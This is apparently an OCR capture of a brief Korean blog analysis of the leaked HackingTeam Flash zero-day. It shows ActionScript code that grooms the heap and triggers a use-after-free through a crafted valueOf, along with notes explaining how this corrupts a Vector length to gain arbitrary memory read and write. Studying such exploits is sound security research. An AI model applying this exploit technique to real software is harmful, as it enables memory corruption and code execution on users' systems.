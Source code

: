 ```yaml
---
layout: post
title: "HackingTeam's Flash 0day"
date: 2015-07-09 15:53:27 +0900
comments: true
categories: 
---
```


```
static var _ba:ByteArray;
static var _va:Array;

var a = new Array(90);
for (var i: int; i < 90; i+= 3) {
    a[i] = new Class2(i);
    a[i+1] = new ByteArray();
    a[i+1].length = 0xfa0; // 4000
    a[i+2] = new Class2(i+2)
}

a[0]: Class2(0)
a[1]: ByteArray()
a[2]: Class2(2)
a[3]: Class2(3)
a[4]: ByteArray()
a[5]: Class2(5)
a[6]: Class2(6)
a[7]: ByteArray()
...
a[85]: ByteArray()
a[86]: Class2(86)
a[87]: Class2(87)
a[88]: ByteArray()
a[89]: Class2(89)

prototype.valueOf =  function() {
    _va = new Array(5)
    _gc.push(_va)
    _ba.length = 0x1100
    for(var i:int;i<_va.length;i++)
        _va[i] = new Vector.<uint>(0x3f0)
    return 0x40;
}

var v:Vector.<uint>;
for (i=85; i>=0; i-=3) {
    _ba = a[i];
    _ba[3] = new MyClass(); // call MyClass()'s prototype.valueOf
    if (_ba[3]!=0x0) throw new Error("can't cause UaF");
```

valueOf() 의 ret 값이 vector length 에 씌여지기때문에, 
_ba[3] 은 여전히 0 이여야하고, 0x40 은 vector 에 씌여진다.

UaF 가 성공했으면, _va[i] 의 4 번째 바이트가 0x40 으로 씌여진다.
이제 length 가 굉장히 길어진 Vector 가 탄생했다.
이 Vector 로 메모리의 허가받지 않은 영역을 read & write 할 수 있다.
